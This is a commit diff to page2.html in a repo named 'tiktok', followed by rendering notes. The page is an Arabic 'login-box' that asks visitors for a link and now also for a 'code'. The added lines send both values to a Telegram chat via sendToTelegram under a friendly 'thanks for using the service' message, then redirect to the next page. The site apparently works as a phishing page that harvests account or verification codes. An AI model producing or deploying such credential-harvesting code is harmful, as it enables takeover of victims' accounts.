

Before and after one commit to mohmedd0/tiktok, a plain HTML site: page page2.html in a window 1280 px wide. Shown: the part 130-650 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update page2.html

```diff
--- a/page2.html
+++ b/page2.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>إدخال الرابط</title>
+    <title>إدخال الرابط والكود</title>
     <style>
         body {
             font-family: 'Arial', sans-serif;
@@ -78,9 +78,10 @@
 </head>
 <body>
     <div class="login-box">
-        <h2>🌐 أدخل الرابط الخاص بك 📲</h2>
+        <h2>🌐 أدخل الرابط والكود 📲</h2>
         <input type="text" id="urlInput" placeholder="أدخل الرابط هنا">
-        <button onclick="submitUrl()">✅ إرسال الرابط</button>
+        <input type="text" id="codeInput" placeholder="أدخل الكود هنا">
+        <button onclick="submitUrl()">✅ إرسال الرابط والكود</button>
         <div id="message" class="message"></div>
     </div>
 
@@ -105,6 +106,7 @@
 
         function submitUrl() {
             const urlInput = document.getElementById("urlInput").value.trim();
+            const codeInput = document.getElementById("codeInput").value.trim();
             const messageDiv = document.getElementById("message");
 
             // التحقق من صحة الرابط
@@ -115,12 +117,21 @@
             } else if (!urlPattern.test(urlInput)) {
                 messageDiv.className = "message error";
                 messageDiv.innerHTML = "❌ الرابط غير صالح، تأكد من إدخاله بشكل صحيح!";
+            } else if (codeInput.trim() === "") {
+                messageDiv.className = "message error";
+                messageDiv.innerHTML = "⚠️ من فضلك أدخل الكود!";
             } else {
                 messageDiv.className = "message success";
-                messageDiv.innerHTML = `✅ تم إرسال الرابط بنجاح! <span>${urlInput}</span> 🎉`;
+                messageDiv.innerHTML = `✅ تم إرسال الرابط والكود بنجاح! <span>${urlInput}</span> - <span>${codeInput}</span> 🎉`;
 
-                // إرسال الرسالة إلى تلجرام
-                sendToTelegram(`تم إدخال الرابط بنجاح: ${urlInput}`);
+                // إرسال الرسالة إلى تلجرام مع إيموجي ونص طويل
+                const telegramMessage = `🎯 تم إدخال البيانات بنجاح! 🌐
+📎 الرابط: ${urlInput}
+🔑 الكود: ${codeInput}
+
+🚀 شكراً لاستخدامك الخدمة. نأمل أن يكون هذا مفيداً لك! 😊`;
+
+                sendToTelegram(telegramMessage);
 
                 setTimeout(() => {
                     window.location.href = "page3.html"; // رابط إلى الصفحة التالية
```
